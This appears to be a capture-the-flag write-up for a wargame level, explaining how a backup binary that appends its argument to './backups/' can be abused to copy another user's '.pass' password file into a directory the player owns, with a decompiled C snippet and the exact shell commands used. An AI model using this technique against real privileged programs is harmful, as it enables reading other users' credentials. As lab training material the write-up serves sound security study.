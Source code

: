 # Level08 Exploit Guide

## Objective

Gain access to the `.pass` file located in another user's home directory, even without having direct read permission.

---

## Binary Behavior

After decompiling the binary, we observe the following behavior:

- It expects **one argument**: the name of the file to back up.
- It uses a custom function `log_wrapper()` to log the start and end of the backup.
- Here's the backup process:

  1. Opens a log file at `./backups/.log`.
  2. Logs the start of the backup.
  3. Opens the file provided as an argument.
  4. Prepares the destination path: `./backups/`.
  5. Copies the file content byte by byte.
  6. Logs the end of the backup.

The destination path is constructed like this in code:

```c
strncpy(local_78, "./backups/", 11);
strncat(local_78, filename, ...);
```

If we pass an argument like:

    /home/users/level09/.pass
The final backup path becomes:

```bash
./backups//home/users/level09/.pass
```
This means the program opens the file from the absolute path, then writes the copied content to the same structure under ./backups/.

## Exploitation
The vulnerability lies in the lack of input sanitization. The program directly appends user input to the backup directory path, allowing directory traversal and arbitrary file reading.

### Steps to Exploit

    cd /tmp
    mkdir -p ./backups//home/users/level09/
    ~/level08 home/users/level09/.pass
    cat /tmp/backups/home/users/level09/.pass

## Result:

The program copies the contents of the target .pass file into our local ./backups/ directory. Since we own this structure, we can now read the file freely.